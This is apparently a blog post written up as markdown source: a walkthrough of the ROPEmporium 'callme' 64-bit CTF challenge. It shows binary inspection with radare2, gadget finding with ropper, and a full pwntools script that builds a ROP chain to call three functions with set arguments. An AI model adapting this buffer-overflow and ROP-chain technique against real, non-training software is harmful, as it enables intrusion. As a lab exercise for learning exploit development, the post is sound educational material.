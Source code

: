 ```yaml
---
title: 'ROPEmporium: 2-Callme (64-bit)'
date: 2019-08-17
thumbnailImagePosition: left
thumbnailImage: /img/posts/2019/08/ropemporium-2-callme/pexels-photo.jpg
coverImage: /img/posts/2019/08/ropemporium-2-callme/pexels-photo.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Exploit-Development
- ROPEmporium
- CTF
tags:
- ctf
- dev
- getting-started
- ropemporium
- rop
- exploit
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "Continuing the ROP Series with Callme, this time going through Calling conventions"
---
```


Now if you haven't caught on, this is a series! I went through a bit about calling parameters in the previous post [1-Split](https://blog.securitybits.io/2019/08/ropemporium-1-split-64-bit/), and in this post we'll dig into it a bit more and make 3 consecutive calls with 3 specific parameters.

## Description

> You must call **callme\_one(), callme\_two()** and **callme\_three()** in that order, each with the arguments 1,2,3 e.g. **callme\_one(1,2,3)** to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme\_ functions in the above order and with the correct arguments.

## Setup

As usual lets download the correct archive and unzip it.
```
root@linux:~/split# wget https://ropemporium.com/binary/callme.zip
root@linux:~/split# unzip callme.zip
root@linux:~/split# ls
callme callme.zip encrypted_flag.txt key1.dat key2.dat libcallme.so
root@linux:~/split# file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00e98079187631025159f040444e55bed3edcf1c, not stripped
root@linux:~/split# file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=4596d32e684288a4c3c8d3daf98fe6f42ffc4454, not stripped
```

Still not stripped, but we do get a bit more files, key1.dat, key2.dat, encrypted\_flag.txt and libcallme.so. Again lets see what the callme binary wants for input data by executing it.

```
callme by ROP Emporium
64bits

Hope you read the instructions...
> inputdata

Exiting
```

So according the instructions, to print the flag the ROP chain need to make the following function calls in the specific order.

```
+-------------------------------------------------------------+
| callme_one(1,2,3) + callme_two(1,2,3) + callme_three(1,2,3) |
+-------------------------------------------------------------+
```
So again, lets create the exploit template with pwntools, and add the 40-byte junk and payload definition. The 40-byte junk will be a constant in this series and for the ROPEmporium challenges. Although if you feel uncertain on how you identify the length of the buffer overflow, go back to [0-ret2win](/2019/08/08/ropemporium-0-ret2win/) as it will be the same procedure for this as well.

## Radare2 Reversing

Now the description of the challenge claims that there should be little to no reversing at all, but for good practice lets have a look anyway.

```
root@Valkyrie:~/Documents/courses/ropemporium/2-callme# rabin2 -I callme
arch x86
baddr 0x400000
binsz 11375
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath ./
sanitiz false
static false
stripped false
subsys linux
va true
```

Opening the binary up in radare2 and looking for the callme functions confirms that they are there, and with the symbols intact.

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-14.png" title="Radare2 Reversing" >}}

That means we can use the pwntools symbols trick and in the exploit use _`exe.symbols.callme_one`_ instead of direct memory addresses, making it a bit more readable.

### Finding gadgets

Going back onto the precious blogpost where we exploited _1-split_ and the _x64\_cheatsheet,_ we know that we need to put:

- 0x1 in the RDI register (First parameter)
- 0x2 in the RSI register (Second parameter)
- 0x3 in the RDX register (Third Parameter)

So the first thing is to use ropper to list all the _pop_ gadgets, as the call _pop_ is used to put the address on top of the stack into the destination register

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-15.png" title="Finding ROP Gadgets" >}}

Conveniently on the address `0x00401ab0` there is a `pop rdi; pop rsi; pop rdx; ret;`.

## Final Exploit

```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/17/ropemporium-2-callme-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('callme')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#Additionally, %rdi, %rsi, %rdx, %rcx, %r8, and %r9 are used to pass the first six integer or pointer parameters to called functions
#call callme_one(1,2,3)
#call callme_two(1,2,3)
#call callme_three(1,2,3)

junk = "A"*40
pop_rdi_rsi_rdx = p64(0x00401ab0) #0x00401ab0: pop rdi; pop rsi; pop rdx; ret;
one = p64(0x1)
two = p64(0x2)
three = p64(0x3)
parameters = pop_rdi_rsi_rdx + one + two + three

# -- Exploit goes here --
payload = ""
payload += junk
payload += parameters + p64(exe.symbols.callme_one)
payload += parameters + p64(exe.symbols.callme_two)
payload += parameters + p64(exe.symbols.callme_three)

io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
```

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-2-callme/image-16.png" title="Flag" >}}

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
